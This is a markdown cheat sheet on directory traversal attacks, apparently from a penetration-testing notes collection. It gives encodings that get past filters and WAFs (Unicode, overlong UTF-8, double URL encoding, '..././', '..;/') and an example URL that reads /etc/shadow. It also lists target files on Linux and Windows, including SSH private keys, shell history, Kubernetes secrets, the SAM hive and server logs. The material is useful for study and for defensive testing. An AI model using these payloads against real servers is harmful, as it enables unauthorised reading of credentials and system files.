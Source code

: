 # Directory Traversal
>Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files. In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.

## Tools
**[dotdotpwn - The Directory Traversal Fuzzer](https://github.com/wireghoul/dotdotpwn)**

## Exploitation
We can use ".." to reach the parent directory. But these characters are blocked using filters, So the following encodings may 
can help you bypassing filter.(If you lucky enough)

### 16 bits Unicode encoding
```
. = %u002e
/ = %u2215
\ = %u2216
```
### UTF-8 Unicode encoding
```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```
### Bypass "../" replaced by ""
Sometimes WAF can replace "../" by "", So if you encounter these WAF just duplicate them.
```
..././
...\.\
```
### Bypass "../" with ";"
```
..;/
http://domain.com/page.asp?include=..;/..;/etc/shadow 
```
### Double URL encoding
```
. = %252e
/ = %252f
\ = %255c
```

## Path Traversal Cheatsheat
**Linux**
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```

**Windows**
```
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

**Log Files**
```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```


**References:**[Directory traversal - Portswigger](https://portswigger.net/web-security/file-path-traversal)

